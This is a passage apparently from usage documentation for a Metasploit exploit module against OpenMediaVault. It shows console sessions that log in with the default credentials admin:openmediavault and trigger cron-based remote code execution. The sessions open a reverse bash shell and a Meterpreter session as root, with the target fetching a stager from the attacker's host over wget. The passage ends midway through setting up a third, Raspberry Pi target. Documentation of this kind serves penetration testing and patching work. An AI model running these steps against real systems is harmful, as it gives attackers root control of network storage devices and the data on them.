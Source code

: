 ```msf

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60814) at 2024-07-03 12:47:54 +0000

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux openmediavault 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux
exit
```
### openmediavault_7.0-32-amd64.iso appliance Linux Dropper -  linux/x64/meterpreter/reverse_tcp
```msf
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set target 1
target => 1
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.201.6:80 - Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target is vulnerable. Version 7.0.pre.32
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/cYSPpwJI3FXafxL
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Client 192.168.201.6 (Wget/1.21.3) requested /cYSPpwJI3FXafxL
[*] Sending payload to 192.168.201.6 (Wget/1.21.3)
[*] Sending stage (3045380 bytes) to 192.168.201.6
[+] Cron payload entry successfully removed.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.6:44398) at 2024-07-03 12:53:49 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : openmediavault.local
OS           : Debian 12.5 (Linux 6.1.0-18-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4 Unix command - cmd/unix/reverse_bash
```msf
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set target 0
target => 0
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf exploit(unix/webapp/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
```